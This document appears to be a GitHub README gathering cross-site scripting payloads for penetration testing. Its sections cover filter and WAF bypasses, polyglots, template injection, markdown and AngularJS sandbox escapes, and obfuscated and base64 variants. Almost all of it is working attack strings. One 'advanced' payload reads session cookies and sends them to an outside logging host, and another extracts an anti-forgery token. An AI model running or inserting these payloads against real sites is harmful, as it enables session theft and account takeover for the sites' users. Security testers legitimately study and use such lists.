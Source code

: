 # XSS Payload Collection

This is a curated list of XSS payloads collected for use in penetration testing. These range from basic detection strings to bypasses, JavaScript polyglots, markdown injections, and framework-specific payloads such as jQuery and AngularJS.

---

## 🚩 Easy Payloads (Great for Testing WAF Mitigations)

```html
<h1>yorhaH<h1>
<u>yorhaU</u>
<svg src=x onerror=confirm(document.domain)>
<script>alert(document.domain)</script>
/><script>alert(document.domain)</script>
<iframe src="javascript:alert(document.domain);"></iframe>
<button onclick="alert(document.domain)">Click me</button>
<a href="javascript:alert(document.domain)">Click me</a>
<img src=x onerror=confirm(document.domain)>
<xss onmousemove="alert(document.domain)">test</xss>
<xss onmouseleave="prompt(document.domain)">test</xss>
<a/href="#"/oncut=prompt`1`>cutme</a>
<img srcset="x, data:image/svg+xml,%3Csvg/onload=alert(1)%3E 1x">
<a href="JaVaScRiPt%3Aalert(1)">test</a>
<a href="vbscript:msgbox(1)">test</a>
```

---

## 📝 Form-Based

```html
<form action="javascript:alert(1)" onsubmit="javascript:prompt(2)">
  <button type="submit" onclick="prompt`2`" onclick="prompt`3`" onclick="prompt`4`">Submit</button>
</form>

<form action="J\aV\a\s\cr\i\pt\::prompt`1`;http://" target="">
  <button type="submit" onclick="prompt`2`" onclick="prompt`3`" onclick="prompt`4`">Submit</button>
</form>
```

---

## 💡 jQuery-Based Payloads

```js
$.getScript("javascript:alert(1)");
$.getScript('javascript:alert(1)');
$('<scr'+'ipt>').text('prompt(1)').appendTo('body');
$("<img src=x onerror=alert(1)>").appendTo("body");
$().map(alert(1))
```

---

## 🔎 HTML Attribute Injection

```html
foo'" onmouseenter="alert(document.domain)" bar
foo%27%22onmouseenter%3d%22%28alertdocument.domain%29%22%20bar%2ecom
foo'" onmousemove="alert(document.domain)" bar
foo'" onmouseenter="alert(document.domain)" bar.csv
foo'\" onmouseenter=\"alert(document.domain)\" bar.html
```

---

## 🔄 Modified / Obscure Variants

```html
'"/><svg src=x onerror=confirm(document.domain)>
'"/><img src=x onerror=prompt(document.domain)>
'"/><img src=x onerror=prompt`document.domain`>
'&quot;&gt;&lt;img src=x onerror=prompt`document.domain`&gt;
&lt;script&gt;alert(document.domain)&lt;/script&gt;
&lt;scri\pt&gt;confirm(1)&lt;/scri\pt&gt;
💋img src=x onerror=alert(document.domain)//💛
```

---

## 🧠 HTML Comment Tricks

```html
<!--'"/><img src=x onerror=prompt(document.domain)>
<!--'"/><svg src=x onerror=confirm(document.domain)>
<!--'\"/><img src=x onerror=prompt(document.domain)>
<!-- <textarea><img title="</textarea><img src=x onerror=alert()>"></textarea>
<!--<textarea><img title=\"</textarea><img src=x onerror=alert()>\"></textarea>
```

---

## 🧪 SVG, CSS, Media-Based Payloads

```html
<svg xmlns="http://www.w3.org/2000/svg"><animate onbegin="confirm(document.domain)"></animate></svg>
<div style="background-image:url(javascript:confirm(document.domain))"></div>
<iframe src="data:text/html,<script>confirm(document.domain)</script>"></iframe>
<svgonload=alert(1)>
<svg/onerror=alert('XSS')>
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<audio src="JaVaScRiPt:cOnFiRm(1)"></audio>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<h1 style="background-color:red;background-image:url('javascript:confirm`1`')">B2<h1>
```

---

## 🌐 URL Filter Bypasses

```js
javascript:alert(document.domain);//https://
jAvAsCrIpT:prompt('xss');//https://www
javascript:parent.window.alert(document.domain);x=globalThis.parent.window.document.getElementsByName("__RequestVerificationToken")[0].value;document.writeln('TOKEN: '+x);//https://
```

---

## 🧨 Advanced Payloads (Adam / Gareth Heyes / Polyglots)

```js
javascript:(async()=>{let t=(q=>{let d=document,w=globalThis;(new w.Image).src='https://www.aswsec.com/exploit/clogger.php?loc='+encodeURI(d.location)+'&dt='+encodeURI(new Date(Date.now()).toISOString())+'&cookie='+encodeURI(q.replace(/\+/g, "%252B"));});for(let s of ['cookieName1','cookieName2'])fetch('/plugins/react/pages/api?action=readCookie&cookieName='+s).then(r=>r.ok?r.json():null).then(d=>d&&t(s+'='+d.cookieValue)).catch(()=>{});})();

javascript:parent.window.alert(document.domain);x=globalThis.parent.window.document.getElementsByName("__RequestVerificationToken")[0].value;document.writeln('TOKEN: ' +x);//https://

#!@*%alert`1`
+!+[]
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
\j\av\a\s\cr\i\pt\:/*--></title></style></textarea></script></xmp><svg/onload='+/"`/+/onmouseover=1/+/[*/[]/+alert(42);//'>
```

---

## 🧵 Template Injection

```html
{{7*7}}             // Jinja2
${constructor.constructor('alert(1)')()}
{{constructor.constructor('alert(1)')()}}
{{constructor['constructor'](`alert(1)`)()}}
{{constructor.constructor('alert(1)')()}}{{7*7}}
#{7*7}              // Thymeleaf
{{7*7}}${{8*8}}{9*9}${2+2}#{7*7}
```

---

## 🖼 Dummy Image Testing

```html
<img src="https://raw.githubusercontent.com/thiem-dev/xssCat/main/tpen-safe-cat.jpg" onerror=prompt`document.domain`>
<img src="http://mj96aqjvk4k9incbw2o252mia9g04tsi.oastify.com" onerror=alert`document.domain`>
```

---

## 🔥 Rare & Edge-Case Payloads

```js
'-prompt(8)-'
"; alert('XSS');//  
¼script¾alert(¢XSS¢)¼script¾
‘; alert`1`;
eval`2+2`;
+ADw-script+AD4-alert`document.location`+ADw-script+AD4-
[{{alert;pg`XSS`}}]
&#x3C;img src=x onerror=eval(String.fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))&#x3E;
```

---

## 💌 Base64 Payloads

```js
data:text/html;base64,YWxlcnRgMWA=           // alert`1`
data:text/html;base64,amF2YXNjcmlwdDovKi0tPjwvdGl0bGU+PC9zdHlsZT48L3RleHRhcmVhPjwvc2NyaXB0PjwveG1wPjxzdmcvb25sb2FkPScrLyJgLysvb25tb3VzZW92ZXI9MS8rL1sqL1tdLythbGVydCg0Mik7Ly8nPg==
```

---

## ⚙️ Obfuscated Variants

```html
<svg/onload%3dalert%602%60 trash%3d<!--
%22%3E%3Cimg src=x onerror=alert(1) %3C!--
mailto:test@example.com?subject=<script>alert(1)</script>
mailto:test@example.com?subject='+escape('<img src=x onerror=alert(1)>
```

---

## 🪵 Markdown XSS

From [HackTricks - XSS in Markdown](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/xss-in-markdown)

```markdown
[Basic](javascript:alert('Basic'))
[Local Storage](javascript:alert(JSON.stringify(localStorage)))
[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))
[URL](javascript://www.google.com%0Aalert('URL'))
[In Quotes]('javascript:alert("InQuotes")')
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)
[Link](jaVaScRiPt:alert('XSS'))
[Link](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
```

---

## 🅰️ AngularJS Payloads

From [PortSwigger AngularJS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

```js
constructor.constructor('alert(1)')()
{{constructor.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}{{7*7}}
${constructor.constructor('alert(1)')()}
{{constructor['constructor'](`alert(1)`)()}}
```

### Sandbox Breakout Example

```url
https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

---
